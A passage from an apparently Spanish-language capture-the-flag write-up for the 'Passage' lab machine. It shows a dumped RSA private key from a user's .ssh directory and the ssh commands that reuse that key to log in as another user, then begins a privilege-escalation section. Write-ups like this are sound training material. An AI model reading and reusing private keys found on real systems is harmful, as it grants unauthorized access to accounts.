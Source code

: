```bash
GS3B3ngOKyHVGFeQrpwT1a/cxdEi8yetXj9FJd7yg2kIeuDPp+gmHZhVHGcwE6C4
IuVrqUgz4FzyH1ZFg37embvutkIBv3FVyF7RRqFX/6y6X1Vbtk7kXsMCgYEA1WBE
LuhRFMDaEIdfA16CotRuwwpQS/WeZ8Q5loOj9+hm7wYCtGpbdS9urDHaMZUHysSR
AHRFxITr4Sbi51BHUsnwHzJZ0o6tRFMXacN93g3Y2bT9yZ2zj9kwGM25ySizEWH0
VvPKeRYMlGnXqBvJoRE43wdQaPGYgW2bj6Ylt18CgYBRzSsYCNlnuZj4rmM0m9Nt
1v9lucmBzWig6vjxwYnnjXsW1qJv2O+NIqefOWOpYaLvLdoBhbLEd6UkTOtMIrj0
KnjOfIETEsn2a56D5OsYNN+lfFP6Ig3ctfjG0Htnve0LnG+wHHnhVl7XSSAA9cP1
9pT2lD4vIil2M6w5EKQeoQKBgQCMMs16GLE1tqVRWPEH8LBbNsN0KbGqxz8GpTrF
d8dj23LOuJ9MVdmz/K92OudHzsko5ND1gHBa+I9YB8ns/KVwczjv9pBoNdEI5KOs
nYN1RJnoKfDa6WCTMrxUf9ADqVdHI5p9C4BM4Tzwwz6suV1ZFEzO1ipyWdO/rvoY
f62mdwKBgQCCvj96lWy41Uofc8y65CJi126M+9OElbhskRiWlB3OIDb51mbSYgyM
Uxu7T8HY2CcWiKGe+TEX6mw9VFxaOyiBm8ReSC7Sk21GASy8KgqtfZy7pZGvazDs
OR3ygpKs09yu7svQi8j2qwc7FL6DER74yws+f538hI7SHBv9fYPVyw==
-----END RSA PRIVATE KEY-----
paul@passage:~/.ssh$ 
```

Obtenemos una llave privada, guardemosla en un archivo e intentemos ingresar a la máquina mediante `SSH`:

```bash
–» cat keynadav 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAs14rHBRld5fU9oL1zpIfcPgaT54Rb+QDj2oAK4M1g5PblKu/
+L+JLs7KP5QL0CINoGGhB5Q3aanfYAmAO7YO+jeUS266BqgOj6PdUOvT0GnS7M4i
...
```

```bash
#Le damos los permisos que requiere una llave privada SSH
–» chmod 700 keynadav
#Ingresamos
–» ssh -i keynadav nadav@10.10.10.206
The authenticity of host '10.10.10.206 (10.10.10.206)' can't be established.
ECDSA key fingerprint is SHA256:oRyj2rNWOCrVh9SCgFGamjppmxqJUlGgvI4JSVG75xg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.206' (ECDSA) to the list of known hosts.
Last login: Mon Aug 31 15:07:54 2020 from 127.0.0.1
...
...
nadav@passage:~$  
```

Listos, somos `nadav`, sigamos enumerando y veamos como convertirnos en usuario administrador...

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Después de enumeración básica con scripts, dejar pasar cosas y enredarme con otras, no encontré nada útil, simplemente que hay un servicio llamado `CUPS` corriendo localmente en el puerto `631`... Pero esto fue un lindo rabbit hole en el que perdí un buen rato :(
